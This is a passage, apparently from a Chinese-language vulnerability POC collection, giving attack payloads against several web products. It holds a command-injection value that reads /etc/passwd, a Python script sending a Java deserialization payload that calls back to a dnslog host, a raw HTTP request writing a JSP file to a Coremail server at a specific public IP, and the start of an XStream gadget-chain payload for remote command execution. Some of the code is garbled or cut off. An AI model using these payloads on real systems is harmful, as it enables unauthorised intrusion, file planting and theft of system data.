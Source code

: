 type='|cat /etc/passwd||'
```

![](https://mmbiz.qpic.cn/sz_mmbiz_png/k89AZuPTXhyDHticBAbNMfhOsxMtGhribAl1hZfnuxf4usnBYZG4aX0Nibso4mG4sN0le61dpOREPahZry6LpVibWg/640)

文件上传位置：

```
import requests
import threadpool
import urllib3import sys
import base64
ip = ""
dnslog = "\x79\x37\x64\x70\" #dnslog把字符串转16进制替换该段，测试用的ceye.io可以回显
data = "\xac\xed\x00\x05\x73\x72\x00\x11\x6a\x61\x76\x61\x2e\x75\x74\x69\x6c\x2e\x48\x61\x73\x68\x4d\x61\x70\x05\x07\xda\xc1\xc3\x16\x60\xd1\x03\x00\x02\x46\x00\x0a\x6c\x6f\x61\x64\x46\x61\x63\x74\x6f\x72\x49\x00\x09\x74\x68\x72\x65\x73\x68\x6f\x6c\x64\x78\x70\x3f\x40\x00\x00\x00\x00\x00\x0c\x77\x08\x00\x00\x00\x10\x00\x00\x00\x01\x73\x72\x00\x0c\x6a\x61\x76\x61\x2e\x6e\x65\x74\x2e\x55\x52\x4c\x96\x25\x37\x36\x1a\xfc\xe4\x72\x03\x00\x07\x49\x00\x08\x68\x61\x73\x68\x43\x6f\x64\x65\x49\x00\x04\x70\x6f\x72\x74\x4c\x00\x09\x61\x75\x74\x68\x6f\x72\x69\x74\x79\x74\x00\x12\x4c\x6a\x61\x76\x61\x2f\x6c\x61\x6e\x67\x2f\x53\x74\x72\x69\x6e\x67\x3b\x4c\x00\x04\x66\x69\x6c\x65\x71\x00\x7e\x00\x03\x4c\x00\x04\x68\x6f\x73\x74\x71\x00\x7e\x00\x03\x4c\x00\x08\x70\x72\x6f\x74\x6f\x63\x6f\x6c\x71\x00\x7e\x00\x03\x4c\x00\x03\x72\x65\x66\x71\x00\x7e\x00\x03\x78\x70\xff\xff\xff\xff\x00\x00\x00\x50\x74\x00\x11"+dnslog+"\x3a\x38\x30\x74\x00\x00\x74\x00\x0e"+dnslog+"\x74\x00\x04\x68\x74\x74\x70\x70\x78\x74\x00\x18\x68\x74\x74\x70\x3a\x2f\x2f"+dnslog+"\x3a\x38\x30\x78"
uploadHeader={"User-Agent": "Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/74.0.3729.169 Safari/537.36"}
req = requests.post("http:
print (req.text)
```

![](https://mmbiz.qpic.cn/sz_mmbiz_png/k89AZuPTXhyDHticBAbNMfhOsxMtGhribAsxTOIXAiam5SYSbCiajBGp3VwGBt48Xq1IGJ7E8G9ojGXGQBD2UOGAEg/640)

wiki POC 

链接 https://github.com/PeiQi0/PeiQi-WIKI-POC/commit/f5fb98b0cc2c9dcc9b8adce41479cf836265419a

```
POST /webinst/action.jsp HTTP/1.1
Host: 120.136.129.10
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
User-Agent: Mozilla/5.0 (Windows NT 6.1; WOW64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/32.0.1700.76 Safari/537.36
Content-Type: application/x-www-form-urlencoded
Content-Length: 99
Connection: close

func=checkserver&webServerName=127.0.0.1:6132/%0d@/home/coremail/web/webapp/justtest.jsp%20JUSTTEST



上传文位置：http://ip:port/coremail/justtest.jsp
```

### 0x07 和信创天远程桌面命令执行

```
<map>
  <entry>
    <jdk.nashorn.internal.objects.NativeString>
      <flags>0</flags>
      <value class="com.sun.xml.internal.bind.v2.runtime.unmarshaller.Base64Data">
        <dataHandler>
          <dataSource class="com.sun.xml.internal.ws.encoding.xml.XMLMessage$XmlDataSource">
            <is class="javax.crypto.CipherInputStream">